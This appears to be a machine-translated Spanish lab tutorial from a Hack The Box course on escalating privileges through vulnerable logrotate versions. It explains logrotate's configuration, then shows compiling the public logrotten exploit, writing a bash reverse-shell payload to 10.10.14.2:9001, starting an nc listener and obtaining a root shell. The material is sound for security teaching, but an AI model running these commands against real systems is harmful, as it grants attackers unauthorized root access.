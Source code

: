 # Logrotato

---

Cada sistema de Linux produce grandes cantidades de archivos de registro. Para evitar que el disco duro se desborde, una herramienta llamada`logrotate`se encarga del archivo o la eliminación de registros antiguos. Si no se presta atención a los archivos de registro, se vuelven cada vez más grandes y eventualmente ocupan todo el espacio de disco disponible. Además, buscar en muchos archivos de registro grandes lleva mucho tiempo. Para evitar esto y guardar espacio en disco,`logrotate` ha sido desarrollado. Los registros`/var/log`Ofrezca a los administradores la información que necesitan para determinar la causa detrás del mal funcionamiento. Casi más importantes son los detalles del sistema desapercibidos, como si todos los servicios se ejecutan correctamente.

`Logrotate`Tiene muchas características para administrar estos archivos de registro. Estos incluyen la especificación de:

- el`size`del archivo de registro,
- es`age`,
- y el`action`para ser tomado cuando se alcanza uno de estos factores.

  Logrotato

```shell-session
xnoxos@htb[/htb]$ man logrotate
xnoxos@htb[/htb]$ # or
xnoxos@htb[/htb]$ logrotate --help

Usage: logrotate [OPTION...] <configfile>
  -d, --debug               Don't do anything, just test and print debug messages
  -f, --force               Force file rotation
  -m, --mail=command        Command to send mail (instead of '/usr/bin/mail')
  -s, --state=statefile     Path of state file
      --skip-state-lock     Do not lock the state file
  -v, --verbose             Display messages during rotation
  -l, --log=logfile         Log file or 'syslog' to log to syslog
      --version             Display version information

Help options:
  -?, --help                Show this help message
      --usage               Display brief usage message
```

La función de la rotación en sí consiste en cambiar el nombre de los archivos de registro. Por ejemplo, se pueden crear nuevos archivos de registro para cada nuevo día, y los más antiguos pasarán a llamarse automáticamente. Otro ejemplo de esto sería vaciar el archivo de registro más antiguo y, por lo tanto, reducir el consumo de memoria.

Esta herramienta generalmente se inicia periódicamente a través de`cron`y controlado a través del archivo de configuración`/etc/logrotate.conf`. Dentro de este archivo, contiene configuraciones globales que determinan la función de`logrotate`.

  Logrotato

```shell-session
xnoxos@htb[/htb]$ cat /etc/logrotate.conf


# see "man logrotate" for details

# global options do not affect preceding include directives

# rotate log files weekly
weekly

# use the adm group by default, since this is the owning group
# of /var/log/syslog.
su root adm

# keep 4 weeks worth of backlogs
rotate 4

# create new (empty) log files after rotating old ones
create

# use date as a suffix of the rotated file
#dateext

# uncomment this if you want your log files compressed
#compress

# packages drop log rotation information into this directory
include /etc/logrotate.d

# system-specific logs may also be configured here.
```

Para forzar una nueva rotación el mismo día, podemos establecer la fecha después de los archivos de registro individuales en el archivo de estado`/var/lib/logrotate.status`o usar el`-f`/`--force`opción:

  Logrotato

```shell-session
xnoxos@htb[/htb]$ sudo cat /var/lib/logrotate.status

/var/log/samba/log.smbd" 2022-8-3
/var/log/mysql/mysql.log" 2022-8-3
```

Podemos encontrar los archivos de configuración correspondientes en`/etc/logrotate.d/`directorio.

  Logrotato

```shell-session
xnoxos@htb[/htb]$ ls /etc/logrotate.d/

alternatives  apport  apt  bootlog  btmp  dpkg  mon  rsyslog  ubuntu-advantage-tools  ufw  unattended-upgrades  wtmp
```

  Logrotato

```shell-session
xnoxos@htb[/htb]$ cat /etc/logrotate.d/dpkg

/var/log/dpkg.log {
        monthly
        rotate 12
        compress
        delaycompress
        missingok
        notifempty
        create 644 root root
}
```

Para explotar`logrotate`, necesitamos algunos requisitos que tengamos que cumplir.

1. Necesitamos`write`Permisos en los archivos de registro
2. el logrotato debe ejecutarse como un usuario privilegiado o`root`
3. Versiones vulnerables:
    - 3.8.6
    - 3.11.0
    - 3.15.0
    - 3.18.0

Hay una exploit prefabricada que podemos usar para esto si se cumplen los requisitos. Esta exploit se nombra[fastidioso](https://github.com/whotwagner/logrotten). Podemos descargarlo y compilarlo en un núcleo similar del sistema de destino y luego transferirlo al sistema de destino. Alternativamente, si podemos compilar el código en el sistema de destino, entonces podemos hacerlo directamente en el sistema de destino.

  Logrotato

```shell-session
logger@nix02:~$ git clone https://github.com/whotwagner/logrotten.git
logger@nix02:~$ cd logrotten
logger@nix02:~$ gcc logrotten.c -o logrotten
```

A continuación, necesitamos que se ejecute una carga útil. Aquí hay muchas opciones diferentes disponibles para nosotros que podemos usar. En este ejemplo, ejecutaremos un shell inverso basado en bash simple con el`IP`y`port`de nuestra VM que usamos para atacar el sistema objetivo.

  Logrotato

```shell-session
logger@nix02:~$ echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```

Sin embargo, antes de ejecutar el exploit, debemos determinar qué opción`logrotate`usos`logrotate.conf`.

  Logrotato

```shell-session
logger@nix02:~$ grep "create\|compress" /etc/logrotate.conf | grep -v "#"

create
```

En nuestro caso, es la opción:`create`. Por lo tanto, tenemos que usar el exploit adaptado a esta función.

Después de eso, tenemos que iniciar un oyente en nuestro VM / Pwnbox, que espera la conexión del sistema de destino.

  Logrotato

```shell-session
xnoxos@htb[/htb]$ nc -nlvp 9001

Listening on 0.0.0.0 9001
```

Como paso final, ejecutamos el exploit con la carga útil preparada y esperamos un shell inverso como un usuario o raíz privilegiado.

  Logrotato

```shell-session
logger@nix02:~$ ./logrotten -p ./payload /tmp/tmp.log
```

  Logrotato

```shell-session
...
Listening on 0.0.0.0 9001

Connection received on 10.129.24.11 49818
# id

uid=0(root) gid=0(root) groups=0(root)
```